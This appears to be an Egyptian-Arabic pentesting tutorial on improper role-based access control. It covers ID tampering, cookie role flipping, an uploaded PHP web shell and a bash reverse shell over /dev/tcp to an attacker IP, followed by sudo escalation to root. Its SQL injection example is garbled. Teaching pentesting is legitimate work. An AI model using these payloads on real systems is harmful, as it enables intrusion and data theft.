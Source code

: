 تمام، هشرح لك "Improper Role-Based Access Control (RBAC)" بعمق شديد، مع تركيز على الجانب العميق والعملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Improper Role-Based Access Control (RBAC)؟**

#### **الشرح العميق:**
"Role-Based Access Control" (RBAC) هو نظام تحكم في الوصول بيعتمد على "الأدوار" (Roles) اللي بيتم تعيينها للمستخدمين في تطبيق أو نظام. يعني كل مستخدم عنده دور معين (زي User، Editor، Admin)، والدور ده بيحدد إيه اللي يقدر يعمله وإيه اللي مش مسموح بيه. لما نقول "Improper RBAC"، يعني إن النظام ده معمول بشكل غلط أو ضعيف، فالمستخدم يقدر يعمل حاجات خارج دوره، زي إن مستخدم عادي يشوف بيانات الأدمن أو يعدل حاجة المفروض للأدمن بس. ده بيحصل بسبب:
- سوء تصميم الصلاحيات.
- عدم التحقق من دور المستخدم قبل تنفيذ أمر.
- إعطاء صلاحيات زيادة عن اللزوم.

#### **الأدوات والأوامر العملية:**
1. **فحص الوصول في الويب:**
   - لو موقع فيه حساب User عادي:
     - جرب رابط زي: `http://target.com/api/users/123`.
     - عدل الـ ID لـ `124` أو `1` -> لو فتح حساب حد تاني، يبقى RBAC ضعيف.

2. **اختبار الأدوار:**
   - لو عندك حساب User، جرب صفحة Admin:
     - `http://target.com/admin/dashboard` -> لو فتحت، يعني مافيش تحقق من الدور.

3. **فحص الـ API:**
   - استخدم Burp Suite:
     - Intercept طلب زي `GET /api/settings` -> لو رجع بيانات لمستخدم عادي، يبقى Improper RBAC.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط ناس في أوض مختلفة في البيت، بس سايب الأبواب مفتوحة، فالكل يقدر يخش أي حتة! Improper RBAC يعني كل واحد يعمل اللي عايزه من غير ما حد يقوله لأ."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
لما RBAC يكون ضعيف أو مضبوط غلط، بيفتح الباب للمهاجم يعمل حاجات خطيرة:
- **تصعيد أفقي (Horizontal):** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي (Vertical):** مستخدم عادي يوصل لصلاحيات Admin أو يتحكم في النظام.
- **سرقة بيانات:** ياخد معلومات المفروض تكون لأدوار أعلى بس.
- **تخريب:** يغير إعدادات أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي ذهب لأنها بتخليك تتخطى حدود دورك وتصير الكبير بدون ما تحتاج مجهود كبير.

#### **الأدوات والأوامر العملية:**
1. **استغلال الـ API:**
   - لو لقيت طلب زي `POST /api/update_user` بتاعك كـ User:
     - غير الـ Payload في Burp:
       - `"user_id": 123` لـ `"user_id": 1` -> لو نجح، يبقى RBAC مكسور.

2. **تجاوز التحقق:**
   - لو موقع بيستخدم Cookie زي `role=user`:
     - غيرها في المتصفح لـ `role=admin` -> لو فتحت صفحة Admin، يبقى ضعيف.

3. **SQL Injection مع RBAC:**
   - `http://target.com/profile?id=123; SELECT * FROM users WHERE role='admin' --` -> لو جاب بيانات Admin، يبقى مافيش حماية.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون حاطط حارس بس نايم، أي حد يقدر يعدي وياخد اللي عايزه! المهاجم يلاقي الثغرة دي، يبقى الباشا بتاع الموقع على طول."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف في RBAC عشان تتجاوز حدود دورك وتاخد وصول أعلى أو تتحكم في حاجات ممنوعة.
- **مثال واقعي:** لو مستخدم عادي قدر يعدل بيانات الأدمن بتغيير الـ ID في الرابط، يبقى RBAC مضروب.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي RBAC ضعيف، زي ما تكون لقيت خرم في الحيطة، تدخل منه وتبقى الكبير بتاع اللعبة من غير ما حد يحس!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: إنشاء حساب User**
- لو الموقع بيسمح، سجل حساب عادي:
  - Username: `testuser` - Password: `test123`.
- سجل دخول وشوف حدودك.

#### **الخطوة 3: اختبار RBAC**
- جرب تغير الـ ID:
  - `http://192.168.1.10/profile?id=100` (حسابك).
  - `http://192.168.1.10/profile?id=1` -> لو فتح حساب الأدمن، يبقى RBAC ضعيف.
- جرب صفحات Admin:
  - `http://192.168.1.10/admin` -> لو فتحت بدون تحقق، يبقى مكشوف.

#### **الخطوة 4: استغلال أفقي**
- لو لقيت API:
  - Intercept بـ Burp: `GET /api/users/100`.
  - غيرها لـ `GET /api/users/1` -> لو جاب بيانات الأدمن، سجلها.

#### **الخطوة 5: استغلال عمودي**
- لو لقيت Cookie زي `role=user`:
  - غيرها في المتصفح لـ `role=admin`.
  - افتح: `http://192.168.1.10/admin/settings` -> لو نجحت:
    - ابحث عن Upload -> ارفع `shell.php`: `<?php system($_GET['cmd']); ?>`.
    - `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

#### **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

#### **الخطوة 7: توثيق**
- سجل كل اللي وصلتله (زي بيانات الأدمن أو Shell).
- قدم تقرير يوضح إزاي RBAC الضعيف فتح الباب للتحكم.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت الأدوار فيه مفتوحة، خشيت من أوضة صغيرة، لعبته في الكبيرة، وطلعت الكبير بتاع الحتة! RBAC لما يكون ضعيف، يبقى طريقك للفوز بسهولة."

---

### **الخلاصة النهائية:**
Improper Role-Based Access Control هي ثغرة كبيرة لأنها بتخلّي المستخدم يتجاوز دوره ويوصل لأماكن أو صلاحيات المفروض ممنوعة. في الـ Pentesting، دور على الضعف ده في الروابط، الـ API، أو الكوكيز، استغله عشان تاخد بيانات أو Shell، ووري العميل إن نظامه زي لعبة مفتوحة للكل! بالطريقة دي، تبقى البطل بتاع الساحة بكل سهولة!